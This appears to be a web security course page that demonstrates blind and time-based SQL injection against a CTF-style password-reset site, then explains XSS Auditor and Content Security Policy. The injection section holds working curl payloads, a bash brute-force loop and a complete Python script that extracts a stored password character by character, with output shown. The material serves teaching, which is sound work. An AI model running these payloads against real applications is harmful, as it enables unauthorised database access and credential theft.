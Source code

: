 Web Security Compendium
=======================

Blind SQL Injection
-------------------
It may happen that injections are possible but results and errors from queries are not directly visible. If, however, the application behaves differently depending on the query that is executed on the server, it is still possible to for an attacker to exfiltrate data and perform other malicious activities.

In fact the application, depending of the success, could show:

* a distinguishable message
* an error
* a broken page
* an empty page

Intuitively, we get a 1-bit boolean answer that can be exploited to leak the content of the database.

We illustrate with a simple example. Consider this vulnerable [password recovery service](http://pwdreset.wutctf.space/) where the code responsible of executing the query is:

```PHP
$sth = $dbh->query("SELECT * FROM people WHERE mail = '" . $_POST['mail']. "'");
```

where `$_POST['mail']` is the input provided by the user. If the query is successful the page shows the message `The new password has been sent to the provided e-mail address`. Otherwise, in case of database errors or if the result set is empty, the message displayed is `E-mail address not found!`.

A simple injection like `' OR 1=1 #` will make the query succeed but will not leak any information about the data. To retrieve database contents via - so called - Blind SQL-injections, a standard approach is to split the data of interest into single bytes and compare, one byte at a time, their values with a guess made by the attacker until a match is found. Standard MySQL functions that are usually used to achieve this goal are `MID`, `CONCAT`, `LENGTH` and `ORD`. See [MySQL string functions](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html) for further details.

Some examples follow.

### Content Exfiltration

We want to dump the password of the second user in the `people` table at our [password recovery service](http://pwdreset.wutctf.space/). We use `curl` to exemplify as follows:

```
$ curl -s 'http://pwdreset.wutctf.space/' --data "mail=' or 1=1 #" | grep -q sent && echo OK
OK
```

The above command sends a POST request to the website with mail parameter set to `' or 1=1 #`, making the query succeed. Then, the `sent` string (which is part of the success message printed by the website) is searched in the page and, if found, `OK` is printed on our shell. We can now move on to dump the password:

```
$ curl -s 'http://pwdreset.wutctf.space/' --data "mail=' OR BINARY 'H'=(SELECT MID(password, 1, 1) FROM people LIMIT 1,1) #" | grep -q sent && echo OK
OK
$ curl -s 'http://pwdreset.wutctf.space/' --data "mail=' OR BINARY 'i'=(SELECT MID(password, 2, 1) FROM people LIMIT 1,1) #" | grep -q sent && echo OK
OK
$ curl -s 'http://pwdreset.wutctf.space/' --data "mail=' OR BINARY 'A'=(SELECT MID(password, 3, 1) FROM people LIMIT 1,1) #" | grep -q sent && echo OK
OK
$ curl -s 'http://pwdreset.wutctf.space/' --data "mail=' OR BINARY 'Z'=(SELECT MID(password, 4, 1) FROM people LIMIT 1,1) #" | grep -q sent && echo OK
$
```

Here we have just guessed that the first 4 letters of the password are `HiAZ`. The first 3 requests returned `OK`, but not the fourth one. So we can state that the password starts with `HiA`, but the fourth letter is not `Z`.


### Scripting

Testing each character by hand is a time consuming and error-prone task. Attackers usually rely on tools that automatize the process.

To get the fourth letter of the password, we can perform a linear search over the possible characters. A rough one-liner in bash is the following:

```
$ for guess in {A..z}; do curl -s 'http://pwdreset.wutctf.space/' --data "mail=' OR BINARY '${guess}'=(SELECT MID(password, 4, 1) FROM people LIMIT 1,1) #" | grep -q sent && echo "${guess}" && break; done
l
```

A more elegant and extensible approach would consist in writing a python script using the [request](http://docs.python-requests.org/en/master/) library.

```Python
#!/usr/bin/env python3

import sys
import string
import requests

BASE_URL = "http://pwdreset.wutctf.space/"
QUERY_FMT = "' OR BINARY '{char}'=(SELECT MID(password, {pos}, 1) FROM people LIMIT 1,1) #"
SUCCESS_MSG = "sent"

def oracle(s, c, pos):
    r = s.post(BASE_URL, data={'mail': QUERY_FMT.format(char=c, pos=pos)})
    return SUCCESS_MSG in r.text

def main():
    if len(sys.argv) != 2:
        sys.stderr.write('Usage: {} <position>\n'.format(sys.argv[0]))
        sys.exit(1)

    s = requests.Session()
    chars = string.ascii_letters + string.digits
    for c in chars:
        if oracle(s, c, int(sys.argv[1])):
            print(c)
            break

if __name__ == '__main__':
    main()
```

By combining Python and Bash we can do

```
$ for i in {1..100}; do ./bsqi-linear.py "${i}" | tr -d '\n'; done; echo
HiAllurwelCometochecKmyunguEssablepasswoRd
```

... but seriously, do everything directly in Python!


Totally Blind SQL Injections
----------------------------
Sometimes the query is executed on the server, but its result does not affect the rendered page. In this case, it is still possible to infer some information on the query result by leveraging the time spent for its execution. For instance, MySQL provides the [`SLEEP`](https://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html#function_sleep) function that can be invoked by an attacker when an injected condition evaluates to true. Using this technique, we can measure the time spent by `curl` to execute in order to extract the first character of the password:

```
$ time curl 'http://pwdreset.wutctf.space/' --data "mail=' OR IF(BINARY 'H'=(SELECT MID(password, 1, 1) FROM people LIMIT 1,1), SLEEP(1), NULL) #" &>/dev/null

real	0m3.273s
user	0m0.008s
sys	0m0.007s
```

Notice that the `IF(...)` expression is evaluated once per row. Since the table `people` has `3` rows, the elapsed time is `3` seconds even if we injected a sleep of `1` second. To overcome this limitation, it would be enough to leak one valid match for the `mail` column and substitute the `OR` with an `AND` as follows:

```
$ time curl 'http://pwdreset.wutctf.space/' --data "mail=marco.squarcina@tuwien.ac.at' AND IF(BINARY 'H'=(SELECT MID(password, 1, 1) FROM people LIMIT 1,1), SLEEP(1), NULL) #" &>/dev/null

real	0m1.573s
user	0m0.007s
sys	0m0.006s
```

XSS Mitigations
---------------
If you ever thought that preventing XSS is a trivial task that can be achieved by replacing special characters such as `<`, `>`, `'`, `"`, `&` and `/` on the server side, you should reconsider your position. Even the Google search form has been affected recently by a [reflected XSS vulnerability](https://www.youtube.com/watch?v=lG7U3fuNw3A) for more than 5 months!

### XSS Auditor

A category of mitigations aimed at preventing reflected XSS, consists in filtering the content of a page if a dangerous string in the url is matched in the body. Chrome ships this kind of protection under the name of [XSS Auditor](https://www.chromium.org/developers/design-documents/xss-auditor). This mechanism is, however, easy to bypass whenever the attacker can split the malicious payload into 2 GET variables which are combined - at the server side - when serving the final page. Additionally, XSS Auditor has been abused in the past to strip inline scripts from safe webpages to introduce vulnerabilities.

### Content Security Policy (CSP)

The [Content Security Policy](https://www.w3.org/TR/CSP3/) is a policy-based defense mechanism that enables the browser to restrict the contents that can be embedded by a webpage. The policy is provided by the server through an HTTP header and enforced by the browser. 

CSP can be used as a defense-in-depth mechanism for XSS since it allows to:

* forbid the execution of harmful JS functions, e.g., `eval`
* prevent the execution of inline scripts
* control from which origins it is safe to include external scripts

Some examples of valid CSP policies follow.

All content must come from the site's own origin, `eval` and inline scripts are disabled by default:

```HTTP
Content-Security-Policy: default-src 'self'
```

All content, except scripts, must come from the site's own origin. `eval` and inline scripts are disabled. Scripts are only allowed to be included from `trusted.cdn.com`:

```HTTP
Content-Security-Policy: default-src 'self'; script-src trusted.cdn.com
```

As before, but also allow scripts whose `sha256` hash matches the value specified in the policy (only inline scripts up to CSP2, while CSP3 includes support for [SRI](https://www.w3.org/TR/SRI/) for 3rd-parties scripts):

```HTTP
Content-Security-Policy: default-src 'self'; script-src trusted.cdn.com 'sha256-B2yPHKaXnvFWtRChIbabYmUBFZdVfKKXHbWtWidDVF8='
```

Unsafe policy that allows inline `<script>` elements, `javascript:` URLs, inline event handlers, inline `<style>` elements, use of `eval()` and similar functions and script inclusion from any origin:


```HTTP
Content-Security-Policy: default-src 'self'; script-src * 'unsafe-inline' 'unsafe-eval'
```
